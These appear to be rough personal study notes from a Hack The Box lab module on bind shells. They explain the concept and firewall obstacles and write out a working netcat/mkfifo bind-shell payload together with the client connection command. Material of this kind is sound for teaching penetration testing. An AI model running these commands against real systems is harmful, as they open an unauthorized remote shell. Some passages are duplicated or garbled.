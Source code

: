
#### No. 2: Client - Connecting to bind shell on target

Bind Shells

```shell-session
JackTheWizard@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```



There are more custom configured shells for security like.

just type echo $SHELL (usually ig)


You can also find this out from the ps command and the env command





## Bind Shells


in many cases, we will be working establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done using a Bind and Reverse Shell

## What Is It?

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

#### Bind Example

![image](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

As seen in the image we would connect directly with the IP address and port listening on the target. There can be many challenges with getting the shell with way though


- The listener has to be started on the Target machine 
- Admins typically configure strict incoming firewall rules and NAT at the edge of the network, so we would likely have to be on the internal network to be able to pivot like this.
- Operating system firewalls will likely block most incoming connections that are trusted



OS firewalls become a real issue when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working. In the example above the application used to start the listener is Netcat.


## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

#### No. 1: Server - Binding a Bash shell to the TCP session

Bind Shells

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

#### No. 2: Client - Connecting to bind shell on target

Bind Shells

```shell-session
JackTheWizard@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```





